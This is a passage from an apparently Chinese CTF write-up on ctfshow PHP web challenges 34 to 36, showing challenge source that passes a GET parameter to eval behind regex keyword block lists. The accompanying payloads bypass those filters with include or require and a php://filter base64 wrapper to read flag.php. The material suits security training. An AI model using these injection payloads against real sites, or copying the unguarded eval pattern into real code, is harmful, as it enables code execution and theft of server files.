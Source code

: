 只是多过滤了一个 ;

```cobol
?c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
```

## web35

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

一样的 只要没过滤 include 我们就可以使用之前的payload

这题我们使用看看 require

```cobol
/?c=require$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/47bfc04b9e6a630eed3150bd65a2c6e6.png" alt="" style="max-height:740px; box-sizing:content-box;" />


## web36

```cobol
 
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}


过滤了数字  " =
```

没什么 只要把参数1 变为 a  就可以绕过了
